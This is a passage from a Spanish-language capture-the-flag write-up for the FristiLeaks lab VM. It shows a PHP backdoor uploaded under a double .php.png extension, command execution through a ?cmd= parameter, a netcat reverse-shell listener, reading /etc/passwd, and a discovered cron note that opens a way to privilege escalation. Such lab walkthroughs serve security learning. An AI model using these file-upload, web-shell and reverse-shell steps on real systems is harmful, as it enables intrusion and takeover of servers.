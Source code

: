 Creamos un payload backdoor en php con `$nano picture.php.png`. Para despues poder ejecutar comandos como id:  `http://192.168.0.70/fristi/uploads/picture.php.png?cmd=id`, dando como resultado: `uid=48(apache) gid=48(apache) groups=48(apache)`.

Posteriormente con una revShell, de php con `passthru`.
```python
$nc -lvnp 9001
[...]
script /dev/null -c bash
bash-4.1$ 
```

sobre los usuario con bash, vemos lo siguiente:
```python
bash-4.1$ cat /etc/passwd | grep /bash                                          
root:x:0:0:root:/root:/bin/bash
mysql:x:27:27:MySQL Server:/var/lib/mysql:/bin/bash
eezeepz:x:500:500::/home/eezeepz:/bin/bash
admin:x:501:501::/home/admin:/bin/bash
fristigod:x:502:502::/var/fristigod:/bin/bash
```

Podemos entrar al usuario `eezeepz`:
```python
bash-4.1$ ls
MAKEDEV    chown	hostname  netreport	  taskset     weak-modules
cbq	   clock	hwclock   netstat	  tc	      wipefs
cciss_id   consoletype	kbd_mode  new-kernel-pkg  telinit     xfs_repair
cfdisk	   cpio		kill	  nice		  touch       ypdomainname
chcpu	   cryptsetup	killall5  nisdomainname   tracepath   zcat
chgrp	   ctrlaltdel	kpartx	  nologin	  tracepath6  zic
chkconfig  cut		nameif	  notes.txt	  true
chmod	   halt		nano	  tar		  tune2fs
bash-4.1$ pwd && cat notes.txt
/home/eezeepz
Yo EZ,

I made it possible for you to do some automated checks, 
but I did only allow you access to /usr/bin/* system binaries. I did
however copy a few extra often needed commands to my 
homedir: chmod, df, cat, echo, ps, grep, egrep so you can use those
from /home/admin/

Don't forget to specify the full path for each binary!

Just put a file called "runthis" in /tmp/, each line one command. The 
output goes to the file "cronresult" in /tmp/. It should 
run every minute with my account privileges.

- Jerry

```

Buscando más archivos `.txt` encontramos en `/var/www` que jerry está muy al pendiente de eezeepz:
